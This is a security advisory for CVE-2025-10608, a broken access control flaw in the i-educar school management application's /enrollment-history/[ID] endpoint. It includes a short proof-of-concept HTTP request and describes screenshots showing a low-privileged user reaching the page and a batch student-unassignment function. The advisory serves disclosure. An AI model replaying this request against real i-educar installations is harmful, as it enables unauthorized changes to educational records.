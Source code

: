 # Broken Access Control  in `/enrollment-history/[ID]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/enrollment-history/[ID]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /enrollment-history/[ID]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.
<img width="1439" height="663" alt="Pasted image 20250905173645" src="https://github.com/user-attachments/assets/335886ad-844c-493f-8573-43e98ac14627" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/e28f96f7-eece-4508-8ee1-f0fd1f4ac074" />

    
2. Send the following request::

```
GET /enrollment-history/206 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_det.php?cod_matricula=206
Cookie: i_educar_session=[low_privileged cookie]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to batch unassign students from classes. And, this user, should not do that.

<img width="1617" height="702" alt="Pasted image 20250905181121" src="https://github.com/user-attachments/assets/75f7cfad-f7a5-4894-8cfc-ff002be8b5e4" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

[CVE-2025-10608](https://www.cve.org/CVERecord?id=CVE-2025-10608)

[VulnDB-324628](https://vuldb.com/?id.324628)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
